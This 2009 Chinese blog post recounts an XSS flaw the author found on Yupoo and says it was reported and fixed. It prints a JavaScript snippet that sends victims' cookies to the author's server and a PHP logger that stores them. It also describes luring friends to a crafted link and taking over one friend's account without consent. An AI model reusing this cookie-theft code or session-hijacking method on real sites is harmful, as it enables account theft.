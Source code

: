 ```yaml
---
title: 'Yupoo 的 XSS 漏洞攻击实录'
date: '2009-01-14'
layout: post
categories:
    - 奇技淫巧

#type: draft
---
```


*声明：此漏洞已经提交到 Yupoo 官方。因此漏洞造成的任何后果，本人不承担任何责任。*

偶然的机会发现  [Yupoo]({{site.urls}}/posts/1512/)  线上某页面有个  [XSS 漏洞]({{site.urls}}/posts/2491/) ，它能执行任意的前端代码。

![http://files.gracecode.com/2009_11_05/113846d10845.jpg](http://files.gracecode.com/2009_11_05/113846d10845.jpg)

漏洞产生的原因主要有两点，首先是表单虽然定为 POST 方法，但尝试后发现 GET 参数也可以接收的；其次，也是最致命的是，输入的参数没有经过任何的转义和过滤，就被加入到了页面中。

![http://files.gracecode.com/2009_11_05/742516d10846.jpg](http://files.gracecode.com/2009_11_05/742516d10846.jpg)

于是插入了相应的 Javascript 代码，并构成了 XSS （参看图中 input 参数后面的 value 已经构成了 script 标签）。

弹出个 alert 框似乎并不能说明什么问题，最好能使它发挥威力。于是构建了个 Javascript 脚本传递客户端的 cookie 到本人的服务器环境。Javascript 脚本可以简单的这样写

```
var img = new Image();
img.src = 'get_cookie.php?var=' + encodeURI(document.cookie);
```

然后服务器端使用 PHP 简单写了个脚本保存 Cookie 数据

```
<?php
if (isset($_GET['var'])) {
    file_put_contents('./cookie/'.time().'.txt', urldecode($_GET['var']));
}
```

接下来就属于社会学的范畴， [我在 Twitter 上](http://twitter.com/feelinglucky) 发了信息并「引诱」朋友们去点击伪造后的连接（我承认很猥琐）。

![http://files.gracecode.com/2009_11_05/574966d10846.jpg](http://files.gracecode.com/2009_11_05/574966d10846.jpg)

不一会就收集了某兄弟的 Cookie，于是将其 Cookie 内容填到了本地浏览器上（谢天谢地，Yupoo 的 Cookie 不是很多）。

![http://files.gracecode.com/2009_11_05/427946d10847.jpg](http://files.gracecode.com/2009_11_05/427946d10847.jpg)

再次刷新浏览器，已经使用该用户的帐号登陆了（即便此时我还不知道他的密码）。

![http://files.gracecode.com/2009_11_05/881866d10848.jpg](http://files.gracecode.com/2009_11_05/881866d10848.jpg)

![http://files.gracecode.com/2009_11_05/826286d10848.jpg](http://files.gracecode.com/2009_11_05/826286d10848.jpg)

最后，使用此帐户发张本人的艳·照，纪念下…

`-- Update --`

截止 2009-01-14 16:25 , Yupoo 已经修复了此漏洞，效率真高！赞！

`-- Split --`

总结：上述攻击的手段，仅仅是从个不起眼的 XSS 漏洞开始。XSS 虽然发现快、修补也很方便，但从根本上避免还是个值得研究的课题。

Web2.0 大潮已降， [前端正在改变这这个世界](http://lifesinger.org/blog/?p=956) 。前端代码的安全问题，是每个前端从业人员必须去面对和注意的。
